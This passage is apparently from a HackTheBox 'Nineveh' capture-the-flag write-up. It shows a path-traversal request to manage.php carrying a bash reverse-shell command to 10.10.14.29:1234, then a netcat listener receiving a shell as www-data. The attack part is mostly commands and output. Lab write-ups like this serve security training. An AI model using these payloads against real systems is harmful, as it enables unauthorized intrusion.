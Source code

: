 ![execute_php_code](execute_php_code.png)

Finally, we can start a netcat listener and then execute a reverse shell code!

```bash
URL: http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/shiro.php&cmd=bash -c 'exec bash -i %26>/dev/tcp/10.10.14.29/1234 <%261'

- Netcat Listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.43] 57400
bash: cannot set terminal process group (1387): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
```
